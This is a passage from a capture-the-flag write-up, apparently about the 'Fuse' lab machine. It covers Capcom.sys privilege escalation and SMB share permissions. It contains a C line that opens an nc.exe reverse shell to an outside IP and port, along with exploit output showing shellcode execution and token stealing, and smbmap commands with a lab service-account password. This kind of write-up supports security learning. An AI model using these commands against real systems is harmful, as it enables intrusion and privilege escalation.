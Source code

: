 ### Creating ExploitCapcom.exe binary

Another way of creating the binary that will spawn a reverse shell would be to modify the code into the following line:

```
TCHAR CommandLine[] = TEXT("nc.exe -e C:\\Windows\\system32\\cmd.exe 10.10.16.8 4000");
```

One thing to note is that we would need to specify the complete path of ```C:\\Windows\\system32\cmd.exe``` for the exploit to work. Using cmd.exe instead will cause the exploit to fail.

```
*Evil-WinRM* PS C:\test> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000023F3B8D0008
[+] Shellcode was executed
[+] Token stealing was successful
[-] CreateProcess() failed
```
### Reason why impacket-smbexec and imapacket-psexec failed
The reason why we are unable to connect via impacket-smbexec is due to the fact that svc-scan and svc-print do not have write access to any of the shares.

```
┌──(kali㉿kali)-[~]
└─$ smbmap -u svc-scan -p '$fab@s3Rv1ce$1' -H 10.10.10.193
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
┌──(kali㉿kali)-[~]
└─$ smbmap -u svc-print -p '$fab@s3Rv1ce$1' -H 10.10.10.193
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share         
```

Similarly, impacket-psexec failed to work for the same reason. 
